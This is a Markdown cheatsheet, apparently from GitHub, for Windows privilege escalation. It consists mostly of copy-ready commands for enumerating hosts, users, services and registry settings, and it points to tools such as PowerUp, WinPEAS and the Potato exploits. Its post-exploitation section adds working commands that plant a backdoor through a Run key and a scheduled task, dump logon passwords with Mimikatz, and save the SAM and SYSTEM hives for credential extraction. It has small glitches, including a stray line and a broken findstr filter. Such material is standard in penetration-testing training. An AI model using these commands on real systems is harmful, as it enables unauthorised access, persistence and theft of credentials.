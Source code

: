 # Windows Privilege Escalation Cheatsheet

## System Information Gathering

### Basic System Info
```cmd
systeminfo
hostname
echo %USERNAME%
whoami
whoami /priv
whoami /groups
```

### Network Information
```cmd
ipconfig /all
arp -a
route print
netstat -ano
```

## User and Group Enumeration

### Local Users
```cmd
net user
net localgroup
net localgroup administrators
wmic useraccount get name,sid
```

### Domain Information
```cmd
net user /domain
net group /domain
net group "Domain Admins" /domain
```

## Service Enumeration

### Running Services
```cmd
sc query
wmic service list brief
tasklist /svc
```

### Service Permissions
```cmd
acl.exe 
 icacls "C:\path\to\service.exe"
sc qc [service_name]
```

## Registry Keys to Check

### AlwaysInstallElevated
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Stored Credentials
```cmd
cmdkey /list
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

## File System Enumeration

### World Writable Directories
```cmd
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
```

### Unquoted Service Paths
```cmd
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v ""
```

### Scheduled Tasks
```cmd
schtasks /query /fo LIST /v
```

## Automated Tools

### PowerUp (PowerSploit)
```powershell
Import-Module PowerUp.ps1
Invoke-AllChecks
```

### WinPEAS
```cmd
winpeas.exe
```

### Sherlock
```powershell
Import-Module Sherlock.ps1
Find-AllVulns
```

## Common Exploits

### Token Impersonation
- Check for SeImpersonatePrivilege
- Use JuicyPotato, PrintSpoofer, or RoguePotato

### DLL Hijacking
- Look for missing DLLs in PATH
- Check writable directories in system PATH

### Kernel Exploits
- Use Windows-Exploit-Suggester
- Check systeminfo output against known exploits

## Post-Exploitation

### Persistence
```cmd
# Registry Run Keys
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Backdoor" /t REG_SZ /d "C:\temp\backdoor.exe"

# Scheduled Tasks
schtasks /create /tn "MyTask" /tr "C:\temp\backdoor.exe" /sc onlogon
```

### Credential Dumping
```cmd
# Mimikatz
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# reg save
reg save hklm\sam c:\temp\sam.save
reg save hklm\security c:\temp\security.save
reg save hklm\system c:\temp\system.save
```

